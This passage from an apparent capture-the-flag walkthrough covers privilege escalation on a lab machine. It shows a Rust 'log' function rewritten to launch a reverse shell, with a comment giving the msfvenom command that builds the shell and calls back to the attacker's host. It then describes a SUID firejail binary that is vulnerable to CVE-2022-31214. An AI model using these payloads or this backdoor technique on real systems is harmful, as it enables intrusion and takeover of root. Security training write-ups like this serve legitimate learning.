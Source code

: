 ```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    //msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
    Command::new("/tmp/revshell.elf")
        .spawn()
        .expect("failed to execute process");
}
```

![](screenshots/20-third-shell.png)

# PRIVILEGE ESCALATION 2 - atlas TO root

## DISCOVERY

Now with an unrestricted shell as **atlas**, further enumeration was possible.

First, it was verified that **atlas** was a member of the **jailer** group.

Then, looking at the files to which **jailer** had access, it was discovered that **jailer** could execute `firejail`, which had its SUID bit set to **root**.

Furthermore, when checking `firejail` version, it detected version 0.9.68, which is vulnerable to [CVE-2022-31214](https://nvd.nist.gov/vuln/detail/CVE-2022-31214), which has a publicly available exploit leading to privilege escalation.

![](screenshots/21-firejail-enum.png)
